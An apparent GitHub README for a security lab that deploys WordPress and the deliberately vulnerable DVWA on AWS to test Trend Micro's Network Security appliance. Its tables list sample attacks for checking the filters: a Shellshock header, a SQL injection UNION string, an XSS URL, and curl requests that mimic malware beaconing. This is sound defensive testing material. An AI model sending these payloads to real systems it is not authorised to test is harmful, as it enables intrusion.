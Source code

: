 # quickstart-network-security-edge-deployment

*Note: This Quick Start is an adaptation of original [Wordpress High Availability By Bitnami](https://github.com/aws-quickstart/quickstart-bitnami-wordpress). The original quickstart has been modified to include DVWA instance in the deployment*

## Purpose and Objectives

This Quick Start deploys WordPress High Availability by Bitnami, which includes WordPress and Amazon Aurora, in a highly available environment on AWS in about 40 minutes. It also deploys Damn Vulnerable Web Application (DVWA) in one of the public subnets. The purpose of this quickstart is to provide users a sample environment where they can deploy Network Security Virtual Appliance to protect their resources including web servers and databases etc.

After deploying this Quick Start, you will be able to:

- Deploy Network Security Virtual Appliance (NSVA) as an [Edge Protection](https://cloudone.trendmicro.com/docs/network-security/option1/)
- Configure your security profile in Network Security console by distributing various Intrustion Prevention (IPS), Geo Filters to prevent your resources from inbound and outbound attack.
- Perform various inbound and outbound attacks to validate protection.
- Access logs of Network Security Virtual Applicance (NSVA) to verify which filters are getting triggered.

## Quick Start architecture for WordPress High Availability by Bitnami and DVWA on AWS

<img src="docs/edge_deployment.png" name="Network Security Edge Deployment">

## Deployment Steps

*Note: You can deploy this Quick Start using the default S3 template link below if you don't wish to make changes to this code and deploy with your own customized changes:*

`https://quickstart-network-security.s3.us-west-1.amazonaws.com/edge-deployment/templates/edge-deployment.template`
### 1. Deploy sample Wordpress environment with DVWA 
The Quick Start offers two deployment options:

- Deploying WordPress High Availability by Bitnami and DVWA into a new virtual private cloud (VPC) on AWS
- Deploying WordPress High Availability by Bitnami and DVWA into an existing VPC on AWS

For architectural details, best practices, step-by-step instructions, and customization options, see the 
[Bitnami quickstart deployment guide](https://fwd.aws/arqWN).

Before proceeding to deploy the Quick Start, please create a new SSH key pair for DVWA instance in the AWS region you will be deploying the Quick Start to. You may use the same key pair as the one you created for Bastion hosts if you don't want to create an additional keypair.

Below are the additional parameters for DVWA Configuration that the Quickstart uses:

#### DVWA Configuration

| Parameter label (name)                                   | Default        | Description        |
| :--------------------------------------------------------| :------------- | :----------------- |
| DVWA Instance Type (DVWAInstanceType)                    | t2.micro       | Amazon EC2 instance type for the DVWA instance            |
| Allowed DVWA External Access CIDR (DVWARemoteAccessCIDR) | 127.0.0.1/32   | The CIDR IP range that is permitted external SSH access to the bastion host instances. We recommend that you set this value to a trusted IP range |
| SSH KeyPair Name (DVWAKeyPairName)                       | Requires input | A public/private key pair, which allows you to connect securely to your instance after it launches. When you created an AWS account, this is the key pair you created in your preferred region |
### 2. Deploying Network Security to your environment

After the CloudFormation stack is successfully deployed, please use the deployment wizard in your Network Security console to deploy Network Security Appliance in your environment. For detailed step-by-step instructions on deploying Network Security please check [Deploy Protection](https://cloudone.trendmicro.com/docs/network-security/add_cloud_accounts_appliances/) section

Once the Network Security Virtual Appliances have been succcessfully deployed, make sure they are visible in the Trend Micro Cloud One console and are reporting 'Active' status.

Your environment is now ready to inspect inbound and outbound traffic!

### 3. Enable CloudWatch logs for your Network Security Appliances

In order to see the block logs after doing various attacks, you will need to configure logs for each of your Network Security Appliance. For detailed step-by-step instructions on enabling CloudWatch logs please check [Enable CloudWatch logs](https://cloudone.trendmicro.com/docs/network-security/Manage_Network_Security_instances/#cloudwatch)

You will need to enable at least `ipsBlock` and `reputationBlock` to see logs from attacks listed below.

## Performing IPS, Geo and SQL Attacks

Before performing each attack, please perform the following steps:
1. Configure respective filter to Block and Log mode in Trend Micro Cloud One console. For detailed steps please check [Customize filter settings using the GUI](https://cloudone.trendmicro.com/docs/network-security/Customize_filter_settings_GUI/)
2. Distribute profile with filter overrides. For detailed steps please check [Distribute filter overrides to your network](https://cloudone.trendmicro.com/docs/network-security/Filter_overrides_GUI/)

### Outbound Attacks

Below is the list of outbound attacks you can perform from your Wordpress WebServer. You will need to SSH into the webserver instance via Bastion Host that is created as part of the Quick Start setup.

| Filter ID  | Attack                                                          |
| :--------- | :-------------------------------------------------------------- |
| 25492      | `curl -H 'User-Agent: sdvntyer' http://www.example.com/api/v88` |
| 34738      | `curl 'http://www.example.com/includes/main.php?t=7d4580a3910c54d62b46f24c397c8d59&f=g2&type=cmd&id=D7CB4B6E5A21CA596DE0A7E10059C85E'`|
| 38451      | `curl -H 'User-Agent: ArcherGhost' -d 'post=eyJkYXRhIjogeyJkb21haW4iOiAiaHR0cDovL3RhcmdldDEyMy5jb20vYXNzZXRzL3ZlbmRvci9waHB1bml0L3BocHVuaXQvc3JjL1V0aWwvUEhQL3Nzc3AucGhwIiwgInNlcnZlciI6ICIxOTIuMTY4LjEwNy4xOSIsICJ0aXRsZSI6ICJqcSJ9LCAidHlwZSI6ICJzY2FubmVyIn0%3D' http://www.example.com/adeliap/404.php` |

### Geo Filter Attacks

In order to perform Geo Filter attacks, you need to first configure Geo Filters in Trend Micro Cloud One console by selecting a geographic region to block traffic. For detailed steps on how to configure Geo Filters, please check [Geolocation Filter](https://cloudone.trendmicro.com/docs/network-security/Geo_Location_filtering/). 

Below is the list of geofilter attacks you can perform from your Wordpress WebServer. You will need to SSH into the webserver instance via Bastion Host that is created as part of the Quick Start setup.

| Region | Attack |
| :----- | :----------------------- |
| China  | `curl https://baidu.com` |
| Russia | `curl https://mail.ru `  |

### SQL Attacks

SQL Attacks can be performed on DVWA server that is spun up as part of the Quick Start. In order to perform SQL Attacks, you wil need to first configure the application security level to "Low" in order for attacks to work properly. This can be done as follows:

1. Login to DVWA application from your browser. You can retrieve the DVWAPublicIP from the "Output" tab of your DVWA CloudFormation stack. The URL would be `http://<DVWAPublicIP>`
2. Login to Web Application using following default credentials
    Username: `admin`
    Password: `password`
3. Go to DVWA Security menu on the side navigation panel
4. Set Security Level to "Low" and hit Submit button

Below are some SQL attacks you can perform on your DVWA server

| Filter ID  | Attack                                                        |
| :--------- | :------------------------------------------------------------ |
| 3593      | 1. Go to SSL Injection menu on the side navigation panel<br />2. Enter `?id=a' UNION SELECT "text1","text2";-- -&Submit=Submit` in "User ID" text box and hit submit |
| 12365      | On your browser, enter `http://<DVWAPublicIP>/vulnerabilities/xss_d/?default=English%3Cscript%3Ealert(1)%3C/script%3E` |

### Inbound Attacks

Inbound attacks could be performed on any publicly accessible webserver. In this case, we can perform a simple Shell Shock attack on our DVWA server

| Filter ID  | Attack                                                             |
| :--------- | :----------------------------------------------------------------- |
| 16798      | `curl -H "User-Agent: () { :; }; /bin/eject" http://<DVWAServerIP>` |
